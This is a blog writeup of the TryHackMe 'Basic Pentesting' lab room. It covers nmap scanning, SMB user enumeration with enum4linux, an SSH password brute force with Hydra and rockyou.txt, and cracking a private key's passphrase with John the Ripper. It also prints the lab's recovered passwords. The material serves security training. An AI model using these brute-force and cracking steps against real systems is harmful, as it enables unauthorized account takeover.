```yaml
---
title: "How to Warm Up my HACKING skills with TryHackMe"
date: "2020-04-23T14:17:03Z"
author: Jorge
categories:
- hack 
tags:
- hack
toc: true
summary: |
  TryHackMe is an online platform for learning and teaching cyber security.
  It is based on completing rooms and upskill in security, all from your browser.
  This is my writeup for the Basic pentesting room.
---
```



I have the feeling that the core of the last few articles is related to **_pentesting_** and **_hacking_**. But after discussing about integration patterns, coding and best practices all day long in my job I fond myself enjoying the hacking challenges in my spare time.

TryHackMe is an online platform for learning and teaching cyber security. It is based on completing rooms and upskill in security, all from your browser.

This article is a **Writeups** for the  [_Basic Pentesting_ room](https://tryhackme.com/room/basicpentestingjt).

{{< figure src="/img/2020/03/image.png" >}}

**1️. Deploy the machine and connect to our network**

**2️. Find the services exposed by the machine**

```bash
$ nmap -sC -sV <IP>
```

```bash
# Nmap 7.80 scan initiated Sun Mar 22 11:26:39 2020 as: nmap -sC -sV -oN output/nmap 10.10.38.196
Nmap scan report for 10.10.38.196
Host is up (0.077s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2020-03-22T06:26:54-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-03-22T10:26:54
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 22 11:26:58 2020 -- 1 IP address (1 host up) scanned in 19.80 seconds
```

We  have 3 Open PORTS:

* 22 (SSH)
* 139 and 445 (smbd)

If we open this IP in the browser we see a server sunning.

{{< figure src="/img/2020/03/image-6.png" >}}

{{< figure src="/img/2020/03/image-2.png" >}}

**3. What is the name of the hidden directory on the web server(enter name without /)?**

```html
<!-- Check our dev note section if you need to know what to worck on. -->
```

We could use [gobuster](https://github.com/OJ/gobuster) to search for directories with brute-force but since we have a hint here let's try it first... ok `/dev` isn't the directory we are looking for but we see an apache server running. Maybe `/development` is the right endpoint... Yes, we nailed it.

{{< figure src="/img/2020/03/image-5.png" >}}

{{< figure src="/img/2020/03/image-7.png" >}}

{{< figure src="/img/2020/03/image-8.png" >}}

**4. User brute-forcing to find the username & password**

**5. What is the username?**

We have smbd open, that can give us a lot of information. We can use Enum4linux for that. Since I don't have the tool installed on my machine and handling all the dependencies may be a nightmare let's use docker.

```bash
$ docker run --rm -it enum4linux -a <IP>
```

2 users pop up, **jan** a.k.a. J and **kay** a.k.a. K.

**6. What is the password? + 7. What service do you use to access the server(answer in abbreviation in all caps)?**

Seen the input field we can assume the password is pretty simple, a brute force approach should unlock it.

We have the information about the open ports thanks the nmap tool. SSH is a great candidate with a tool called **_[Hydra](https://tools.kali.org/password-attacks/hydra)_**. A common password dictionary is needed tho and we are going to use [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)

Rockyou.txt contains 14,341,564 unique passwords, used in 32,603,388 accounts.

Kali Linux provides this dictionary file as part of its standard installation.

```bash
$ hydra -l jan -P rockyou.txt ssh:<ip>

login: jan   password: armando
```

**8. Enumerate the machine to find any vectors for privilege escalation**

**9. What is the name of the other user you found(all lower case)?**

We already have this information from point 5.

**10. If you have found another user, what can you do with this information? + 11. What is the final password you obtain?**

Awesome, now we can login with SSH as `jan` . Listing the file in jan directory doesn’t give us any answer to escalating the privilege. Still, remember we have the user kay? Let’s find it out.

We found the `id_rsa` and `id_rsa.pub` and a strange file `pass.back`, unfortunately when we try to ssh using the key file we see the key requires a passphrase.

```bash
$ ssh -i id_rsa kay@<IP>

Enter passphrase for key 'id_rsa':
```

But luckily we can cat out this file and crack the key with [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper/blob/bleeding-jumbo/run/ssh2john.py)

```bash
$ ssh2john.py output/kay/id_rsa > id_rsa.txt

$ docker run -it --rm -v $(pwd)/id_rsa.txt:/opt/id_rsa.txt -v $(pwd)/dic/rockyou.txt:/opt/rockyou.txt obscuritylabs/johntheripper /opt/id_rsa.txt --wordlist=/opt/rockyou.txt
...
beeswax   (output/kay/id_rsa)
```

Now we can login as kay with the public key and cat the strange file we saw under the home directory for this user.

```bash
$ ssh -i id_rsa kay@<IP>

$ cat pass.back

heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

> The stream is in **Spanish**

{{< youtube UK9YkhEI4CU >}}
